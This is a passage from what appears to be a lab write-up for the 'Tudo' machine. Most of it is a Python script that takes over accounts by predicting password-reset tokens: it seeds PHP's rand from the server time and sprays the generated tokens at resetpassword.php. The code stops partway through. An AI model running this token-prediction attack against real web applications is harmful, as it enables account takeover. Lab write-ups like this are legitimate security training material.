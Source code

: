 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:14:46.png)

spray.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token
# bmdyy - Tudo

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send the token to be sprayed
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
```
